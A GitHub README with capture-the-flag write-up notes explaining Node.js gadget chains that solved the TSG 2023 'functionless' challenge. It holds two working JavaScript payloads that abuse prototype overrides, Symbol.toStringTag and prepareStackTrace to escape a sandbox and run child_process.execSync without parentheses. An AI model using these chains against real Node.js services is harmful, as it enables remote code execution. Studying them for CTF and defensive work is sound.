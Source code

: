 # Nodejs-gadget
Nodejs gadget for escaping VM, fooling syntax parser, filter evasion, RCE, ....

### Used to solve `functionless` in TSG 2023
```js
toString.constructor.prototype.toString=toString.constructor.prototype.call;
a = ["process.mainModule.require\u0028'child_process'\u0029.execSync\u0028'calc.exe'\u0029","a"];
toString.constructor instanceof {[Symbol.hasInstance]:a.sort, __proto__: a};
```
`sort` take a callback as an argument, passing elements from array to the callback two by two, with this we can construct an anonymous function with the `a` as dummy parameter and inject the code's body. At somepoint the `toString` function of `toString.constructor` (a.k.a `Function`) will be called because the return value will be converted to string. The return value of `new Function` is a anonymous function, which can be invoked by overwriting `toString` to `call`. 

### From @lebr0nli, also used to solve `functionless` in TSG 2023
```js
Array.prototype.toString=Object.prototype.toString;
Array.prototype[Symbol.toStringTag]="=1];console.log(process.mainModule.constructor._load('child_process').execSync('calc.exe')+'');//";
Object.prototype.prepareStackTrace=this.constructor.constructor;
e=new Error;
x={toString:e.stack}+'';
```
Overwriting `Array.prototype.toString` to `toString` will alter the behavior of converting an Array to String, normally it's separate each member by a comma like this:
![image](https://github.com/CP04042K/Nodejs-gadget/assets/35491855/67bd8afb-e68e-4684-af69-f12ce77be926)

The normal `toString` (`Object.prototype.toString` originally a.k.a `Object.prototype.toString` == `toString`) will honor the internal slot `Symbol.toStringTag`, so by altering the value of `Symbol.toStringTag` we can force it to return the malicious code to `Function`. More precisely we can just overwrite `Array.prototype.toString` to a function that return the code directly
```js
Array.prototype.toString=function() {
  return "console.log(1)"
}
```
By looking at node internals, we can see that `prepareStackTrace` will be called if e.stack is called
![image](https://github.com/CP04042K/Nodejs-gadget/assets/35491855/3755c7c2-08b8-451b-a345-2fc82b5e3ad0)

![image](https://github.com/CP04042K/Nodejs-gadget/assets/35491855/72ea586c-ffab-4229-9dfa-390d58a25635)
`trace` is an array, we overwritten the toString of Array previously, as prepareStackTrace is now `Function`, it requires the last parameter to be a string, `trace.toString` is called and return our payload.
The constructed function is then returned as `e.stack`, so `prepareStackTrace` is the getter for `stack`. All that's left is to invoke the `e.stack`, in the context of the challenge no parentheses and backticks was allowed, so @lebr0nli abused the toString magic method to invoke `e.stack`, an beautiful chain.


